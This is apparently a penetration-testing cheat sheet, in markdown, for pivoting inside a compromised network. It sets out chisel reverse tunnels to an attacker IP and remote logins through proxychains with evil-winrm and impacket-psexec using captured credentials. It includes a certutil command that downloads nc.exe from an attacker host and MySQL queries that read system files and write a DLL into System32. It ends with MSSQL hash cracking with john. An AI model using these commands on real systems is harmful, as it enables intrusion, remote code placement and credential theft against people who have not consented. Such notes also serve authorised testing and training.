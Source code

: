 target

Windows

```powershell
.\chisel.exe client <attacker ip>:<attacker port> R:socks
```

Linux

```shell
# transport target service on port 1234 to our pc(192.168.10.100) port 5678
# ./chisel client 192.168.10.100:80 R:5678:localhost:1234
# nmap -sC -sV -p5678 192.168.10.100 -Pn
./chisel client <attacker ip>:<attacker port> R:<attacker service port>:localhost:<target service port>
```

using proxychains 

```shell
cat /etc/proxychains4.conf
# using socks5
# #socks4         127.0.0.1 9050
# socks5  127.0.0.1 1080

proxychains evil-winrm -i '<target ip>' -u '<username>'
proxychains impacket-psexec "<username>":'<password>'@<target ip>
# certutil -urlcache -split -f "<remote_file_path>" "<local_file_path>"
# certutil -urlcache -split -f "http://<attacker ip>/nc.exe" "C:\Users\<username>\Desktop\nc.exe"
```

additional use

port forwarding to access MySQL

```mysql
/* attacker */
./chisel server -p 4547 --reverse -v
/* target */
.\chisel.exe client 192.168.10.100:4547 R:4748:localhost:3306

/* MySQL */
mysql -h 127.0.0.1 -u root -p '' -P 4748
SELECT LOAD_FILE('C:\\Windows\\System32\\drivers\\etc\\hosts') AS Result;
SELECT LOAD_FILE('C:\\Users\\Public\\Documents\\poc.dll') INTO DUMPFILE "C:\\Windows\\System32\\poc.dll";
```

### :open_file_folder: MSSQL

[Extract hash from MDF](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)

```shell
john --format=mssql12 --wordlist=<rockyou.txt> hash
```
